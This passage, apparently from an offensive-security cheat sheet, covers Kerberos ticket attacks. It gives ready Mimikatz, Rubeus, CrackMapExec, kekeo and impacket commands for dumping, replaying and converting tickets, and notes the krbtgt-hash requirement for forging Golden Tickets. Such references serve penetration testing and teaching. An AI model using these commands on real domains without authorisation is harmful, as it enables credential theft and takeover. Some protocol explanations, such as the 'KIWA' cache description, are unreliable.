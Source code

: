 * **Service Ticket** (ST): The service ticket is used to access a specific network service or resource. The user presents the service ticket to the service or resource, which then uses the ticket to authenticate the user and grant access to the requested resource. The service ticket contains the user's identity, a timestamp, and an encryption of the service's secret key.


### Dump Kerberos Tickets

* Mimikatz: `sekurlsa::tickets /export`
* Rubeus 
  ```ps1
  # List available tickets
  Rubeus.exe triage

  # Dump one ticket, the output is in Kirbi format
  Rubeus.exe dump /luid:0x12d1f7
  ```

### Replay Kerberos Tickets

* Mimikatz: `mimikatz.exe "kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache"`
* CrackMapExec: `KRB5CCNAME=/tmp/administrator.ccache crackmapexec smb 10.10.10 -u user --use-kcache`


### Convert Kerberos Tickets

In the Kerberos authentication protocol, ccache and kirbi are two types of Kerberos credential caches that are used to store Kerberos tickets.

* A credential cache, or `"ccache"` is a temporary storage area for Kerberos tickets that are obtained during the authentication process. The ccache contains the user's authentication credentials and is used to access network resources without having to re-enter the user's credentials for each request.

* The Kerberos Integrated Windows Authentication (KIWA) protocol used by Microsoft Windows systems also makes use of a credential cache called a `"kirbi"` cache. The kirbi cache is similar to the ccache used by standard Kerberos implementations, but with some differences in the way it is structured and managed.

While both caches serve the same basic purpose of storing Kerberos tickets to enable efficient access to network resources, they differ in format and structure. You can convert them easily using:

* kekeo: `misc::convert ccache ticket.kirbi`
* impacket: `impacket-ticketConverter SRV01.kirbi SRV01.ccache`


### Pass-the-Ticket Golden Tickets

Forging a TGT require:
* the `krbtgt` NT hash
* since recently, we cannot use a non-existent account name as a result of `CVE-2021-42287` mitigations

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt NT hash must be used.
